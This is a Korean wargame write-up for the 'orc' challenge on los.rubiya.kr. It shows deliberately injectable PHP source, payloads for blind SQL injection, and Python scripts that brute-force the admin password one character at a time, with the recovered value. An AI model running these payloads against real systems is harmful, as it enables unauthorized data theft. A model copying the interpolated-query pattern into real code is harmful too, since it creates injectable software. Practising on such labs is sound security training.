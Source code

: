 # orc

## 1. Code
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```

## 2. Condition
- GET 방식으로 pw를 받는다.
- solve 함수를 실행시키려면, 정확한 admin pw를 알아야 한다.
&rarr; `blind-sqlinjection` 을 활용하여 구한다.

## 3. Solution
Python을 이용하여 크게 총 두 번의 sqli를 진행할 것이다.
1. pw의 길이
2. pw의 값


### a. Length of pw
변수명 | 값
---|---:
`pw` | 1234' or id='admin' and length(pw)=i #


우선, `length` 함수를 이용하여 길이를 구할것이다.
여기서 중요한 점은, pw조건 앞에 `id='admin'`을 추가해 줌으로서
다른 계정의 pw와 혼동되는 오류가 발생하지 않도록 하는 것이다.

이후, 비교값 `i`는 반복문을 통해 적당값(ex. 1~20)을 넣어준다.

```pyhton
import requests

cookie = {'PHPSESSID' : '~~~~'}

for i in range(1,21):
    url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?\
            pw=1234' or id='admin' and length(pw)=%d %%23" % i
    res = requests.get(url, cookies=cookie)
    
    if "Hello admin" in res.text:
        pw_len = i
        print("Length of pw : %d" % i)
        break
```

스크립트 결과는 다음과 같다.
```
Length of pw : 8
```
---


### b. Value of pw
변수명 | 값
---|---:
`pw` | 1234' or id='admin' and ascii(substr(pw,i,1))=j #


pw를 한문자씩 쪼개어 ascii 코드값 비교를 할 것이다.
- 쪼개는 부분은 `substr` 함수를 이용한다.
&rarr; substr(문자열, 시작위치, 길이)
- `ascii` 함수를 통해 ascii 값을 알아낸다.

스크립트 속 변수 `i`와 `j`를 두는데, 역할은 다음과 같다.
변수명 | 값
---|---:
`i` | pw의 한 문자 index
`j` | 문자 값 비교를 위한 변수 (33 ~ 126)

a. Length of pw 의 코드에 추가해 보자.

```python
import requests

cookie = {'PHPSESSID' : '~~~~'}

for i in range(1,21):
    url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?\
            pw=1234' or id='admin' and length(pw)=%d %%23" % i
    res = requests.get(url, cookies=cookie)
    
    if "Hello admin" in res.text:
        pw_len = i
        print("Length of pw : %d" % i)
        break

pw_value = ""
for i in range(pw_len):
    for j in range(33,127):
        url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?\
                pw=1234' or id='admin' and ascii(substr(pw,%d,1))=%d %%23" % (i+1, j)
        res = requests.get(url, cookies=cookie)

        if "Hello admin" in res.text:
            pw_value += chr(j)
            print("pw(%d) : %s" % (i+1, pw_value))
            break
```

스크립트 결과는 다음과 같다.
```
Length of pw : 8
pw(1) : 0
pw(2) : 09
pw(3) : 095
pw(4) : 095a
pw(5) : 095a9
pw(6) : 095a98
pw(7) : 095a985
pw(8) : 095a9852
```
---



나온 pw 값을 최종적으로 대입해 보면 문제가 해결된다.
변수명 | 값
---|---:
`pw` | 095a9852